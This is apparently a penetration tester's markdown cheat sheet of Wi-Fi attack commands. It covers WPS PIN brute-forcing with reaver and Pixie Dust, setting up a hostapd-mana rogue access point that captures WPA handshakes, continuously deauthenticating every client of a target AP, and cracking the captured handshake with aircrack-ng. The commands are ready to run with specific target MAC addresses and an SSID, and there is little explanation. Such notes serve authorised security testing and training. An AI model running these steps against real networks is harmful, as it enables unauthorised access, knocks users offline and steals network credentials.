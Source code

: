 # WPS Attack
```
#Displaying WPS information for each AP
wash -i wlan0mon
wash -5 -i wlan0mon #for 5G

# or using airodump
sudo airodump-ng wlan0mon --wps --band abg

#launching attack
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K #for PixieWPS attack, much faster
```
## Implementation variation
1. Test with empty pin with `-p` option
2. Use the pins generated by the following commands
```
sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}
```

# Rogue Access Point 
Open wireshark to get needed information regarding the wifi
```
#Discovery
sudo airodump-ng -w discovery --output-format pcap wlan0mon

#wireshark filter to get more info on the wifi (assuming Mostar is the ssid)
wlan.fc.type_subtype == 0x08 && wlan.ssid == "Mostar"

# Creating a Rogue AP
sudo apt install hostapd-mana

# configuration of mona (cat Mostar-mana.conf)
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx

#explanation
hw_mode=>g for 2.4GHz and hw_mode=>a for 5GHz
ieee80211n=1 => for IEEE 802.11n (default is 802.11b)
wpa=3 => for WPA1 or WPA2

#runnning mona
sudo hostapd-mana Mostar-mana.conf

# Deauthenticating every client connected to FC:7A:2B:88:63:EF (using another wifi card)
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon

# cracking
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```